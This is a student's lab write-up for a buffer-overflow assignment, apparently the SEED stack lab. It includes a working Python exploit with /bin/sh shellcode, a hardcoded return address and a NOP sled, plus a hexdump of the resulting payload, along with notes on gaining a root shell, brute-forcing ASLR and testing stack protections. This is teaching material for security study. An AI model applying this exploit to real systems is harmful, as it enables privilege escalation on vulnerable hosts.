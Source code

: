 # Assignment 1

\[TOC\]

## Question 1

| collaborator name | NetID |
| :--- | :--- |
| Kevin | aa123 |
| Shubham | bb345 |

## Question 2

### what I did

1. first I compile call\_shellcode.c
2. then use `./call_shellcode.c`

### result

* I got a shell prompt `$` immediately after running the ELF
* using `whoami`, the user is the same as the user called `./call_shellcode.c`

## Question 3

### what I did

> I use python version of exploit script

1. Compiled stack.c which stack executable and no stack protector
2. Set D=36 in exploit.py in order to let function return to address we set
3. Debugged core dump file to get the address of shellcode on stack
4. Changed return address in exploit.py to the address of shellcode when program is running.
5. Ran exploit.py to generate "badfile", then ran stack

### resut

Got a root shell, but the actual uid of the process is still seed

![](../.gitbook/assets/15485306625642.jpg)

## Question 4

```python
#!/usr/bin/python3

import sys

shellcode= ( 
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
    "\x00"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

#########################################################################
# Replace 0 with the correct offset value
D = 36
# Fill the return address field with the address of the shellcode
# Replace 0xFF with the correct value 
content[D+0] = 0x44   # fill in the 1st byte (least significant byte) 
content[D+1] = 0xEC   # fill in the 2nd byte 
content[D+2] = 0xFF   # fill in the 3rd byte
content[D+3] = 0xBF   # fill in the 4th byte (most significant byte)
#########################################################################

# Put the shellcode at the end
start = 517 - len(shellcode) 
content[start:] = shellcode 

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
```

## Question 5

```text
0000000 9090 9090 9090 9090 9090 9090 9090 9090
*
0000020 9090 9090 ec44 bfff 9090 9090 9090 9090
0000030 9090 9090 9090 9090 9090 9090 9090 9090
*
00001e0 9090 9090 9090 9090 9090 9090 c031 6850
00001f0 2f2f 6873 2f68 6962 896e 50e3 8953 99e1
0000200 0bb0 80cd 0000                         
0000205
```

## Question 6

* Before I insert new shellcode, only got a shell with `seed` as user.
* After inserting new shellcode, got a shell with root privilege.

![-w300](../.gitbook/assets/15485288720065.jpg)

Since SID gave the program approximate root privilege, with that, the program set its real user id to 0\(root\), then run dash. When dash try to check if uid == sid, it'll be true, so the shell stay in root privilege.

## Question 7

With luck, I got shell after running 753 times.

The script keep running `stack`, it fails when the return address we wrote in exploit.py is wrong. Once the position of stack is good that the return address can work, got a shell.

![-w400](../.gitbook/assets/15485312188177.jpg)

## Question 8

* Compiled `stack_protect` without `-fno-stack-protector`
* Compiled `stack_no_protect` with it

Run both of them: ![-w400](../.gitbook/assets/15485326150617.jpg)

Running `stack_no_protect` got a shell proves `badfile` is valid. Got `stack smashing detected` when running `stack_protect`

## Question 9

* Compile `stack_exe` with execstack
* Compile `stack_noexe` with noexecstack

![-w350](../.gitbook/assets/15485318296527.jpg)

Got shell with `stack_exe`, this proves badfile is valid. Got Segmentation fault when running `stack_noexe`.

